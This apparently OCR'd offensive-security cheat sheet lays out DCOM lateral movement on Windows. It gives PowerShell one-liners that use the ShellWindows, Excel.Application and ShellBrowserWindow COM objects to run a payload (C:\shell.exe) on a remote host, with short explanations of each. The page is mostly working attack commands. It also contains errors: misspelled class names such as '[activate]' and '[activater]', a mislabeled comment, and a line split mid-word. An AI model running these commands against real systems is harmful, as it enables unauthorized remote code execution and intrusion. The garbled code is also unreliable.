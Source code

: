 ### ShellWindows

The `ShellWindows` component provides the `Document.Application.ShellExecute` method, which is suitable for `Windows7` and above systems.

```powershell
# Since the ShellWindows object does not have a ProgID, it is necessary to use its CLSID to create an instance. The CLSID of the ShellWindows object can be found through OleViewDotNet. The CLSID of the ShellWindows object is 9BA05972-F6A8-11CF-A442-00A0C90A8F39
# Create an instance of Shell Windows object through PowerShell remotely interact with DCOM
$com=[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"10.10.10.137"))

# Then execute the following command, and we can call the "ShellExecute" method of the object to start the process on the remote host
$com.item().Document.Application.ShellExecute("cmd.exe","/c C:\shell.exe","C:\windows\system32",$null,0)

# Complete command
[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"10.10.10.137")).item().Document.Application.ShellExecute("cmd.exe","/c C:\shell.exe","C:\windows\system32",$null,0)
```

### Excel.Application

```powershell
# Remote interaction with DCOM through PowerShell to create an instance of the Excel.Application object:
$com = [activate]::CreateInstance([type]::GetTypeFromprogID("Excel.Application","10.10.10.137"))
$com.DisplayAlerts = $false

# Then execute the following command, and we can call the "DDEInitiate" method of the object to start the process on the remote host:
$com.DDEInitiate("cmd.exe","/c C:\shell.exe")
```

### ShellBrowserWindow

There is also a `Document.Application.ShellExecute` method in `ShellBrowserWindow`, which is the same as `ShellWindows`, but does not create a new process, but instead hosts child processes through the existing `explorer.exe`. Suitable for `Windows10` and `Windows Server 2012 R2` versions.

```powershell
# Remote interaction with DCOM through PowerShell to create an instance of the Excel.Application object:
$com = [activater]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","10.10.10.137"))

# Then execute the following command, and we can call the "shellExecute" method of the object to start the process on the remote host:
$com.Document.Application.shellExecute("C:\shell.exe")

# Complete command:
[activate]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","10.10.10.137")).Document.Application.shel
lExecute("C:\shell.exe")
```
